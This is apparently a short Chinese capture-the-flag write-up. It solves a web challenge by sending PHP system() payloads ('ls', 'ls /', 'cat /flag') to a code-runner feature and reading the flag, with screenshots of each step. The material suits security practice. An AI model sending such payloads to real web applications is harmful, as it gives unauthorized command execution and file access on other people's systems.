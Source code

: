 ![image-20250403181003997](./assets/image-20250403181003997.png)

右边有个run code

即命令执行

且提示为PHP工具



尝试命令执行

```
<?php system("ls");?>
```

![image-20250403181112100](./assets/image-20250403181112100.png)

左边出现回显



查看根目录

```
<?php system("ls /");?>
```

![image-20250403181138876](./assets/image-20250403181138876.png)



读取flag

```
<?php system("cat /flag");?>
```

![image-20250403181159867](./assets/image-20250403181159867.png)